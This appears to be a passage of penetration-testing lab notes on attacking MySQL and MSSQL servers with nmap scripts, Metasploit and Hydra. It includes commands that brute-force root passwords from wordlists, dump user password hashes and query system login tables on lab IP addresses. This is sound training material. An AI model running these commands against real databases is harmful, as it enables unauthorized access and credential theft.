 ```bash
# 15. Check whether File Privileges can be granted to non admin users using mysql_audi nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-audit --script-args 'mysql-audit.username=root,mysql-audit.filename=/usr/share/nmap/nselib/data/mysql-cis.audit'

# 16. Dump all user hashes using  nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-dump-hashes --script-args 'username=root'

# 17. Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-query --script-args 'query="select count(*) from books.authors",username=root'
```

#### MySQL Dictionary attack

```bash
john@kali> ip a
john@kali> nmap 192.86.53.3

# 1. Find the password of user “root” which is required to access the MySQL server.
#    Use suitable metasploit module with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@kali> msfconsole
msf5> use scanner/mysql/mysql_login
msf5> set rhosts 192.86.53.3
msf5> set username root
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> run

# 2. Find the password of user “root” which is required to access the MySQL server. 
#    Use Hydra with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@kali> hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.86.53.3 mysql
```

#### MSSQL Nmap scripts

```bash
john@kali> ip a
john@kali> nmap 10.2.18.228

# 1. Identify MSSQL Database Server
john@kali> nmap 10.2.18.228 -p 1433 -sV

# 2. Find information from the MSSQL server with NTLM.
john@kali> nmap 10.2.18.228 -p 1433 --script ms-sql-ntlm-info

# 3. Enumerate all valid MSSQL users and passwords
john@kali> nmap 10.2.18.228 --script ms-sql-brute --script-args='userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt'

# 4. Identify 'sa' user password
john@kali> nmap 10.2.18.228 --script ms-sql-empty-password

# 5. Execute MSSQL query to extract sysusers
john@kali> nmap 10.2.18.228 --script ms-sql-query --script-args mssql.username=sa,ms-sql-query.query="select * from master..syslogins"

# 6. Dump MSSQL users hashes
john@kali> nmap 10.2.18.228 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

# 7. Execute a command on MSSQL to retrieve the flag. (The flag is located inside C:\flag.txt)
```